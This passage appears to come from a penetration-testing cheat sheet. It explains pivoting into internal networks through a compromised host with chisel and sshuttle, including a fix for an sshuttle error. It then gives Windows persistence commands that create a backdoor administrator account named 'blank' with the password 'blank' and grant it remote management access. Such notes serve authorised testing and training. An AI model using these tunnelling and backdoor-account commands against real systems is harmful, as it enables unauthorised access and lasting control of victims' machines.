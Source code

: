 Then run `./chisel client <compromised-ip>:<listen-port> <local-port>:<target-ip>:<target-port>` on your local machine.

Now the `target-ip:target-port` should be accessible from `compromised-ip:listen-port`.

As you backgrounded socat processes, when you want your chisel connections you can use `jobs` to see the background jobs, then `kill %NUMBER` to kill all chisel processes.

> **Note:** When using chisel on windows upload it with `.exe` extension.

### sshuttle

[sshuttle](https://github.com/sshuttle/sshuttle) uses an SSH connection to create a tunneled proxy that acts like a new interface. In short it simulates a VPN, allowing you to route traffic through the proxy without the use of proxychains (or equivalent). A nice bonus is that all the tunneled traffic is encrypted as it uses ssh.

> **Note:** This tool only works on Linux targets

The command to connect to a server is `sshuttle -r <username>@<server-ip> <subnet--ip-range>`

> **Note:** Don't forget the mask at the end of the subnet
> **Note:** The `-N` option can be used to attemp an automatically detect the subnet using the server routing table

If the server only allows keyfile authentication you will need to use the `--ssh-cmd` command as this is not natively supported by sshuttle.

The command will look like this `sshuttle -r <username>@<server-ip> --ssh-cmd "ssh -i <keyfile>" <subnet-ip-range>`

> **Note:** If you encounter an error that looks like this:
> ```shell=
> client: Connected.
> client_loop: send disconnect: Broken pipe
> client: fatal: server died with error code 255
> ```
> This can occur when the compromised machine you're connecting to is part of the subnet you're attempting to gain access to.
> To get around this, tell sshuttle to exlude the compromised server from the subnet using the `-x <server-ip>` option.

## Persistence

### Windows

If you can run commands on the machine as `nt authorithy\system` then create an administrator account and add it to the `Remote Management Users` group.

```powershell=
PS C:\> net user blank blank /add

PS C:\> net localgroup Administrators blank /add

PS C:\> net localgroup "Remote Management Users" blank /add
```
